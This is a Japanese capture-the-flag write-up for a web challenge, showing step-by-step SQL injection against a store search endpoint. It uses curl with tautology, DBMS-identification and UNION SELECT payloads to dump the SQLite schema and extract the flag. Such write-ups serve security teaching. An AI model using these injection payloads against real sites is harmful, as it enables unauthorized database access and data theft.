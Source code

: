 # store:web:100pts
[https://store.web.actf.co/](https://store.web.actf.co/)  

# Solution
URLだけが渡される。  
アクセスすると、在庫検索ページのようだ。  
![site.png](site/site.png)  
`'`を入力するとフロントで`Invalid characters in search query.`と怒られる。  
ひとまずcurlで`'`をPOSTする。  
```bash
$ curl -X POST 'https://store.web.actf.co/search' -d "item='"
~~~
        <p>An error occurred.</p>
~~~
```
エラーが発生するようで、SQLiが怪しい。  
条件が常に真となる`' OR 's' = 's' -- satoki`を試す。  
```bash
$ curl -X POST 'https://store.web.actf.co/search' -d "item=' OR 's' = 's' -- satoki"
~~~
            <table>
                <tr>
                    <th>Name</th>
                    <th>Details</th>
                </tr>

                    <tr>
                        <td>Otamatone</td>
                        <td>A extremely serious synthesizer. Comes in a variety of colors.</td>
                    </tr>

                    <tr>
                        <td>Echo dot</td>
                        <td>A smart speaker that can play music, make calls, and answer questions.</td>
                    </tr>

                    <tr>
                        <td>Razer Cynosa Chroma</td>
                        <td>A gaming keyboard with customizable RGB lighting.</td>
                    </tr>

            </table>
~~~
```
すべてのitemが表示された。  
SQLiが可能であることが判明したため、UNIONで連結すればよい。  
まずは[DBMS Identificationペイロード](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#dbms-identification)を用いて、DBMSを特定する。  
```bash
$ curl -X POST 'https://store.web.actf.co/search' -d "item=' OR crc32('MySQL')=crc32('MySQL') -- satoki"
~~~
        <p>An error occurred.</p>
~~~
$ curl -X POST 'https://store.web.actf.co/search' -d "item=' OR sqlite_version()=sqlite_version() -- satoki"
~~~
            <table>
                <tr>
                    <th>Name</th>
                    <th>Details</th>
                </tr>

                    <tr>
                        <td>Otamatone</td>
                        <td>A extremely serious synthesizer. Comes in a variety of colors.</td>
                    </tr>

                    <tr>
                        <td>Echo dot</td>
                        <td>A smart speaker that can play music, make calls, and answer questions.</td>
                    </tr>

                    <tr>
                        <td>Razer Cynosa Chroma</td>
                        <td>A gaming keyboard with customizable RGB lighting.</td>
                    </tr>

            </table>
~~~
```
SQLiteであるとわかるので、次にカラム数を特定する。  
```bash
$ curl -X POST 'https://store.web.actf.co/search' -d "item=' UNION SELECT sqlite_version() -- satoki"
~~~
        <p>An error occurred.</p>
~~~
$ curl -X POST 'https://store.web.actf.co/search' -d "item=' UNION SELECT sqlite_version(), sqlite_version() -- satoki"
~~~
        <p>An error occurred.</p>
~~~
$ curl -X POST 'https://store.web.actf.co/search' -d "item=' UNION SELECT sqlite_version(), sqlite_version(), sqlite_version() -- satoki"
~~~
            <table>
                <tr>
                    <th>Name</th>
                    <th>Details</th>
                </tr>

                    <tr>
                        <td>3.45.3</td>
                        <td>3.45.3</td>
                    </tr>

            </table>
~~~
```
3つのようだ。  
次に`sqlite_schema`からデータを取得する。  
```bash
$ curl -X POST 'https://store.web.actf.co/search' -d "item=' UNION SELECT sqlite_version(), sqlite_version(), sql FROM sqlite_schema -- satoki"
~~~
            <table>
                <tr>
                    <th>Name</th>
                    <th>Details</th>
                </tr>

                    <tr>
                        <td>3.45.3</td>
                        <td>CREATE TABLE flagsbf48d3daadee5dbab457c0dc5ecb86c1 ( flag TEXT)</td>
                    </tr>

                    <tr>
                        <td>3.45.3</td>
                        <td>CREATE TABLE items (
        id INTEGER PRIMARY KEY AUTOINCREMENT,
        name TEXT,
        detail TEXT
    )</td>
                    </tr>

                    <tr>
                        <td>3.45.3</td>
                        <td>CREATE TABLE sqlite_sequence(name,seq)</td>
                    </tr>

            </table>
~~~
```
`flagsbf48d3daadee5dbab457c0dc5ecb86c1`なるテーブルがあるようだ。  
内部の`flag`を抜き出してやる。  
```bash
$ curl -X POST 'https://store.web.actf.co/search' -d "item=' UNION SELECT sqlite_version(), sqlite_version(), flag FROM flagsbf48d3daadee5dbab457c0dc5ecb86c1 -- satoki"
~~~
            <table>
                <tr>
                    <th>Name</th>
                    <th>Details</th>
                </tr>

                    <tr>
                        <td>3.45.3</td>
                        <td>actf{37619bbd0b81c257b70013fa1572f4ed}</td>
                    </tr>

            </table>
~~~
```
flagが得られた。  

## actf{37619bbd0b81c257b70013fa1572f4ed}